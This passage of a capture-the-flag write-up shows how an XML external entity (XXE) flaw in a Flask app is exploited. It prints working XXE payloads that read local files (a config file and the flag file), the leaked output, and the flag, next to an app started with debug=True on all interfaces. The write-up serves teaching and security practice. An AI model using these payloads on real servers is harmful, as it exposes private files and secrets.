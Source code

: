 ```
    return render_template('index.html')

if __name__ == '__main__':
    app.run(host="0.0.0.0", debug=True)
</root>
```

3. Follow configuration hints

From app.py, we see it references `/etc/superapp/config.xml`. Let’s dump it:

```
<?xml version="1.0"?>
<!DOCTYPE root [ <!ENTITY x SYSTEM "file:///etc/superapp/config.xml"> ]>
<root>&x;</root>
```

<img width="822" height="736" alt="image" src="https://github.com/user-attachments/assets/b38a8874-bdfb-42da-9daf-e6f0d574cb9f" />

```
<root><configuration>     <database>         <host>localhost</host>         <user>db_user</user>     </database>     <logging>                 <secret_storage_path>/var/data_archive/secret/flag.txt</secret_storage_path>     </logging> </configuration>
</root>
```
## Flag

4. Exfiltrate the flag

```
<?xml version="1.0"?>
<!DOCTYPE root [ <!ENTITY x SYSTEM "file:///var/data_archive/secret/flag.txt"> ]>
<root>&x;</root>
```

Finally, retrieve the flag directly:

```
n3xt{xxe_1s_n0t_s0_3xt3rn4l}
```

